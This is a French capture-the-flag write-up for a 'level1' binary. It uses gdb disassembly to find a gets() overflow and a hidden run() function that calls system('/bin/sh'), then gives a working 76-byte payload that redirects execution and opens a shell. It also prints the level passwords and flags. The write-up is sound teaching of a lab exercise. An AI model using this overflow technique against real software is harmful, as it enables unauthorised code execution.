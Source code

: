 On se connecte sur le level1, ou se trouve un **binaire** <code>level1</code>.

On cherche a savoir ce que fait ce binaire:
```gdb
> gdb level1 -q
Reading symbols from /home/user/level0/level0...(no debugging symbols found)...done.
(gdb) > disas main
   0x08048480 <+0>:     push   %ebp
   0x08048481 <+1>:     mov    %esp,%ebp
   0x08048483 <+3>:     and    $0xfffffff0,%esp
   0x08048486 <+6>:     sub    $0x50,%esp
   0x08048489 <+9>:     lea    0x10(%esp),%eax
   0x0804848d <+13>:    mov    %eax,(%esp)
   0x08048490 <+16>:    call   0x8048340 <gets@plt>
   0x08048495 <+21>:    leave
   0x08048496 <+22>:    ret
```

En regardant les fonctions utlisées, on trouve :

```gdb
(gdb) > info functions
All defined functions:

Non-debugging symbols:
0x080482f8  _init
0x08048340  gets
0x08048340  gets@plt
0x08048350  fwrite
0x08048350  fwrite@plt
0x08048360  system
0x08048360  system@plt
0x08048370  __gmon_start__
0x08048370  __gmon_start__@plt
0x08048380  __libc_start_main
0x08048380  __libc_start_main@plt
0x08048390  _start
0x080483c0  __do_global_dtors_aux
0x08048420  frame_dummy
0x08048444  run
0x08048480  main
0x080484a0  __libc_csu_init
0x08048510  __libc_csu_fini
0x08048512  __i686.get_pc_thunk.bx
0x08048520  __do_global_ctors_aux
0x0804854c  _fini
```

On trouve 2 fonctions qui ne sont pas utlisées, **frame_dummy** et **run** :

```gdb
(gdb) disas frame_dummy
Dump of assembler code for function frame_dummy:
   0x08048420 <+0>:     push   %ebp
   0x08048421 <+1>:     mov    %esp,%ebp
   0x08048423 <+3>:     sub    $0x18,%esp
   0x08048426 <+6>:     mov    0x80496bc,%eax
   0x0804842b <+11>:    test   %eax,%eax
   0x0804842d <+13>:    je     0x8048441 <frame_dummy+33>
   0x0804842f <+15>:    mov    $0x0,%eax
   0x08048434 <+20>:    test   %eax,%eax
   0x08048436 <+22>:    je     0x8048441 <frame_dummy+33>
   0x08048438 <+24>:    movl   $0x80496bc,(%esp)
   0x0804843f <+31>:    call   *%eax
   0x08048441 <+33>:    leave
   0x08048442 <+34>:    ret
   0x08048443 <+35>:    nop
End of assembler dump.
```
> On voit que cette fonction ne sert pas a grand chose.
```
(gdb) > disas run
Dump of assembler code for function run:
   0x08048444 <+0>:     push   %ebp
   0x08048445 <+1>:     mov    %esp,%ebp
   0x08048447 <+3>:     sub    $0x18,%esp
   0x0804844a <+6>:     mov    0x80497c0,%eax
   0x0804844f <+11>:    mov    %eax,%edx
   0x08048451 <+13>:    mov    $0x8048570,%eax
   0x08048456 <+18>:    mov    %edx,0xc(%esp)
   0x0804845a <+22>:    movl   $0x13,0x8(%esp)
   0x08048462 <+30>:    movl   $0x1,0x4(%esp)
   0x0804846a <+38>:    mov    %eax,(%esp)
   0x0804846d <+41>:    call   0x8048350 <fwrite@plt>
   0x08048472 <+46>:    movl   $0x8048584,(%esp)
   0x08048479 <+53>:    call   0x8048360 <system@plt>
   0x0804847e <+58>:    leave
   0x0804847f <+59>:    ret
End of assembler dump.
```
> Ici on observe l'appelle de la commande **system** avec comme argument 0x8048584:
```gdb
x/s 0x8048584
0x8048584:       "/bin/sh"
```

On sait que l'on va devoir utliser la fonction **run** qui fait un **system("/bin/sh")**. Pour cela nous allons effectuer un buffer **overflow**.
```gdb
> gdb level1 -q
Reading symbols from /home/user/level1/level1...(no debugging symbols found)...done.
(gdb) > b *0x08048490 # Breakpoint juste avant l'appelle de gets
Breakpoint 1 at 0x8048490
(gdb) > run
Starting program: /home/user/level1/level1

Breakpoint 1, 0x08048490 in main ()
(gdb) > i f
Stack level 0, frame at 0xbffff740:
 eip = 0x8048490 in main; saved eip 0xb7e454d3
 Arglist at 0xbffff738, args:
 Locals at 0xbffff738, Previous frame's sp is 0xbffff740
 Saved registers:
  ebp at 0xbffff738, eip at 0xbffff73c
(gdb) > x/30x $esp
0xbffff6e0:     0xbffff6f0      0x0000002f      0xbffff73c      0xb7fd0ff4
0xbffff6f0:     0x080484a0      0x0804978c      0x00000001      0x08048321
0xbffff700:     0xb7fd13e4      0x00080000      0x0804978c      0x080484c1
0xbffff710:     0xffffffff      0xb7e5edc6      0xb7fd0ff4      0xb7e5ee55
0xbffff720:     0xb7fed280      0x00000000      0x080484a9      0xb7fd0ff4
0xbffff730:     0x080484a0      0x00000000      0x00000000      0xb7e454d3
0xbffff740:     0x00000001      0xbffff7d4      0xbffff7dc      0xb7fdc858
0xbffff750:     0x00000000      0xbffff71c
```
> 0xbffff73c => EIP
>
> 0xbffff6f0 => Buffer beginning
>
> 0xbffff73c - 0xbffff6f0 = 0x4c
>
> 0x4c = Offset : 76 characters

<pre><code>python -c "print '/x90' * 76 + '\x44\x84\x04\x08'" | ./level1
Good... Wait what?
</code></pre>
> \x44\x84\x04\x08 => 0x08048444, adresse de la fonction **run**

On se rend compte que nous ne restons pas dans le shell une fois le programme fini, donc on utlise la commande **cat** pour laisser ouvert ce dernier :

<pre><code>> (python -c "print '/x90' * 76 + '\x44\x84\x04\x08'"; cat) | ./level1
Good... Wait what?
> cd ../level2 && cat .pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
</code></pre>

For download :
<pre><code>scp -P4242 level1@192.168.1.78:level1 .</code></pre>
> Password : 1fe8a524fa4bec01ca4ea2a869af2a02260d4a7d5fe7e7c24d8617e6dca12d3a

# Explication bonus
Pour savoir quel taille est atriuber le char* utilisé dans **get** on calcule avec :
```gdb
   0x08048486 <+6>:     sub    $0x50,%esp
   0x08048489 <+9>:     lea    0x10(%esp),%eax
```
> 0x50 - 0x10 = 0x40 = 64

Donc on a => <code>char* str[64];</code>

